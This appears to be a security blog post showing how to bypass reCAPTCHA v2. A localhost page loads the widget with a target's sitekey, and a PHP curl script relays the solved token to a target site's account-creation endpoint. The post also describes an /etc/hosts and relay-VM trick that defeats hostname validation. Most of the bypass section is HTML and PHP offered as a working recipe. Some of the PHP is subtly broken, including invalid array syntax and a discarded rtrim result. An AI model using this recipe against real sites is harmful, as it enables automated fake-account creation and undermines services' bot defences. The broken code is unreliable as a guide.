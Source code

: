```yaml
---
layout: post
title: Bypassing RecaptchaV2
---
```


A lot of times I hear people say that they use recaptchaV2 as a way to mitigate bot traffic. We have tried the same and the results have not been pretty, just as I anticipated. RecaptchaV2 is meant to stop scripts from performing actions against an application but there is no way that a macro-recording application that is interacting with a real browser can be stopped. 

What does this mean? Well, if you have an application that replays clicking on recorded coordinates from a real browser, there is no way recaptchaV2 can solve this. In fact, let me just show you.

== Bypassing recaptchaV2 ==
A quick bypass/automating recaptchaV2 solution is as easy as follows:

* Apache web server
* PHP script receiving the g-captcha-response
* Public sitekey for target URL

You can set up an Apache web server running on http://localhost that loads a form that loads the recaptchaV2 widget and submits the response to a PHP script. The PHP script can receive the g-recaptcha-response parameter and send that via curl to the target URL with the rest of parameters that are needed to complete the action. 

>>>Google by default allows you to load recaptchaV2 widgets from localhost as a 'feature' for testing. There is no way to disable this.

=== Example ===
Let's say that you want to bypass the recaptchaV2 for http://www.targetsite.com/create_account.action endpoint. This action takes a few parameters such as:
* username
* password
* gender
* city
* zip code
* address

What you can have is an Apache server serving an html file which loads the recaptchaV2 widget with:

<blockquote>
<html>
  <head>
    <title>reCAPTCHA demo: Simple page</title>
     <script src="https://www.google.com/recaptcha/api.js" async defer></script>
  </head>
  <body>
    <form action="'''script.php'''" method="POST">
      <div class="g-recaptcha" data-sitekey="'''TARGET_SITE_KEY'''"></div>
      <br/>
      <input type="submit" value="Submit">
    </form>
  </body>
</html>
</blockquote>

Then you can have a script.php file set to receive the response as:
{{{$response = $_POST['g-recaptcha-response']}}}

What it can also do is pass the rest of the parameters to the target URL as:

<blockquote>
	$url = "https://www.targetsite.com/create_account.action";
	$response = $_POST['g-recaptcha-response'];
	$fields = array(
		'g-recaptcha-response' : $response,
		'username' : 'blah',
		'password' : 'password123', #of course!
		'gender' : 'm',
		'city' : 'Chicago',
		'state' : 'IL',
		'address' : '123 Elm St'
	);
	$fields_string = "";
	foreach($fields as $key=>$value) { $fields_string .= $key.'='.$value.'&'; }
	rtrim($fields_string, '&');

	$ch = curl_init();
	curl_setopt($ch, CURLOPT_URL, $url);
	curl_setopt($ch, CURLOPT_POST, count($fields));
	curl_setopt($ch, CURLOPT_POSTFIELDS, $fields_string);
	$result = curl_exec($ch);
	curl_close($ch);
</blockquote>

Bingo! That will submit a valid response to the target site with the rest of the parameters. When the target site sends the response to Google for verification, it'll receive a success of true and a hostname of 'localhost' because that's where the challenge was generated. If the site decides to perform hostname validation, then this attack will not work.

But wait... There's more!

If the site decides to perform hostname validation, this is what you can do:
* Create an /etc/hosts entry for the hostname of the target URL (www.targetsite.com)
* Have the PHP file send the response to another node (another VM) that then sends the parameters via curl.
* Hostname validation bypassed.

=== References ====
[Google RecaptchaV2 Documentation](https://developers.google.com/recaptcha/intro)
	

